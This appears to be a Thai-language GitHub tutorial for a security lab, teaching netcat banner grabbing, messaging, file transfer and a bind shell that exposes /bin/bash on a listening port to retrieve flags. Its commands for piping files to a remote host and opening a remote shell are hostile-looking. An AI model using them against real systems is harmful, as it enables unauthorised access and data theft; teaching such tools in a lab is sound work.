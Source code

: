 # Netcat grab banner

## การใช้ Netcat grab banner

> Netcat(nc) คือเครื่องมือสารพัดประโยชน์  สามารถทำงานได้หลากหลายมาก ตั้งแต่การทดสอบ connect เข้าไปเหมือนกับ telnet ไปจนถึงการทำเป็น backdoor หรือติดต่อกลับ C&C ก็สามารถทำได้เช่นกัน

### ใช้งาน nc ให้เหมือน telnet

> เราสามารถใช้คำสั่งได้เป็น

```
nc <server_IP> <port>
```
> เช่น หากเราใช้ nmap scan เจอ web server port 80 แล้วต้องการติดต่อ web server แบบ manual จะใช้คำสั่งเป็น

```
nc target.com 80
```

> จากนั้นทำการส่งคำสั่ง  HTTP ไปเป็น

```
GET / HTTP/1.1
Host: google.co.th
```

> เราจะได้ HTTP Response กลับมา

### ตัวอย่างการใช้งาน

![Screenshot 2024-05-29 140909](https://github.com/Atiwitch15101/Netcat/assets/159407312/fe7d71ec-8d9e-450b-ab87-f631de7fff02)

> [!NOTE]
> หลังจากเชื่อมต่อเสร็จสิ้น จะมีข้อมูล banner แสดงออกมาที่หน้าจอ ช่วยในการรู้ข้อมูลพื้นฐานของเซิร์ฟเวอร์ที่เรากำลังเชื่อมต่อไปยังได้อย่างรวดเร็ว

## Netcat ส่ง Message

> เราสามารถใช้ netcat ในการรับ-ส่ง Message หากันได้ผ่าน nc ได้ เช่น

### Server: (192.168.1.1)

> ที่ฝั่ง Server รันคำสั่งเป็น

```
nc -lvp <port>
```

> หรือ

```
nc -lvp 10000
```

> นั่นคือเราจะรัน server รอรับ message ที่ port 10000 นั่นเอง

### Client (ฝั่งที่ต้องการส่ง message คำว่า “message” ไปยังปลายทาง)

> ที่ฝั่ง Client รันคำสั่งเป็น

```
nc 192.168.1.1 10000
message
```

> เมื่อเสร็จแล้ว server ปลายทางจะได้รับคำว่า “message” ขึ้นมา

### ตัวอย่างการใช้งาน

> นั้นส่ง message “Testing secplayground” ไปยัง port 10000 ซึ่งภายใน server เป้าหมายจะมี netcat รันคำสั่ง nc -lvp 10000 ค้างไว้อยู่แล้ว หากเราส่ง message สำเร็จ จะพบ flag ที่ /tmp/flag.txt

![Screenshot 2024-05-29 142748](https://github.com/Atiwitch15101/Netcat/assets/159407312/0c683c03-1948-4623-a29d-8a95c1606cfe)

![Screenshot 2024-05-29 143614](https://github.com/Atiwitch15101/Netcat/assets/159407312/43bfde72-4c2d-4e6e-9b88-4e949574efdb)

## Netcat รับ-ส่ง File

> เราสามารถใช้ netcat ในการรับ-ส่ง file ใดๆก็ได้ผ่าน nc เช่น

## Server: (192.168.1.1)

> ที่ฝั่ง Server รันคำสั่งเป็น

```
nc -lvp 10000
```

หรือ

```
nc -lvp 10000 > out.txt
```

> นั่นคือเราจะรัน server รอรับ message ที่ port 10000 นั่นเอง

### Client (ฝั่งที่ต้องการส่ง File ไปยังปลายทาง)

> ที่ฝั่ง Client รันคำสั่งเป็น

```
cat <file> | nc 192.168.1.1 10000
```

> เมื่อเสร็จแล้ว server ปลายทางจะได้รับ <file> มา หรือหากใช้ > ก็จะกลายเป็น save ลงไฟล์ out.txt นั่นเอง

## เชื่อมต่อ Bind Shell ด้วย Netcat

### Bind Shell

> Bind Shell คือการที่เราทำให้เครื่องเป้าหมายนั้นเปิด Listener รอรับการเชื่อมต่อ จากนั้นเราจึงเชื่อมต่อไปยัง port ที่เปิดไว้

> ที่ฝั่ง Server รันคำสั่งเป็น

```
nc -lvp <port> -e /bin/bash
```

หรือ

```
nc -lvp <port> -e /bin/sh
```
> นั่นคือเราจะรัน server การเชื่อมต่อจาก client เมื่อมี client เชื่อมต่อเข้ามา netcat listener ของเราจะรันคำสั่งตามที่กำหนดไว้ตาม -e option ซึ่งในที่นี้คือ /bin/bash

### ที่ฝั่ง Client รันคำสั่งเป็น

```
nc <TARGET> <PORT>
```

> เมื่อเราพิมพ์คำสั่งใด ๆ จากฝั่ง client ก็จะนำไปประมวลที่ฝั่ง server ผ่าน /bin/bash แล้วแสดงผลกลับมาให้ฝั่ง client ซึ่งทำให้เปรียบเสมือนเราอยู่หน้าเครื่อง server นั่นเอง

### ตัวอย่างการใช้งาน

> เชื่อมต่อเข้าไปยัง bind shell ที่รันไว้ใน port 10000 จากนั้นจะพบ flag ที่ /root/flag.txt

![Screenshot 2024-05-29 152653](https://github.com/Atiwitch15101/Netcat/assets/159407312/134ce678-5dac-449f-b331-f470d06c36b2)

![Screenshot 2024-05-29 152549](https://github.com/Atiwitch15101/Netcat/assets/159407312/5fa9ef21-2c70-48f6-80b9-a51d37b7b272)
